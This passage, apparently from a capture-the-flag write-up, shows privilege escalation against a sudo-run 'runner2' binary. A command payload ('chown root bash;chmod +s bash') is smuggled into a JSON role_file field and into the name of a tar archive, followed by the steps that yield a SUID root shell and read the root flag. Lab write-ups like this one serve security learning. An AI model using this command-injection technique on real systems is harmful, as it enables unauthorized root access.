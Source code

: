Now that I have the format figured out, I try to inject commands to chown bash as root and put a SetUID on it. 

```
{
  "run": {
    "action": "install",
    "role_file": "test;chown root bash;chmod +s bash;"
  },
  "auth_code": "UHI75GHI...."
}
```

This didn't work, the program needs a valid compressed file in the role_file field. However, if I make a compressed file and name it with the commands I need, it might pass the check.

```
tar cvf i.tar .
cp i.tar 'test;chown root bash;chmod +s bash;t.tar'
```

I add the file name to my JSON file.

```
vim test.json
```

```
{
  "run": {
    "action": "install",
    "role_file": "test;chown root bash;chmod +s bash;t.tar"
  },
  "auth_code": "UHI75GHI...."
}
```

Finally I test if the exploit worked by copying bash to my current directory, making is executable, running the runner2 application as root, and using the -p flag on bash.

```
cp /bin/bash .
chmod +x ./bash
sudo /opt/runner2/runner2 test.json 
./bash -p
```

I now effectively have a root shell, and am very pleased to be able to get the root flag. 

```
cat /root/root.txt
```

This one was a doozy.
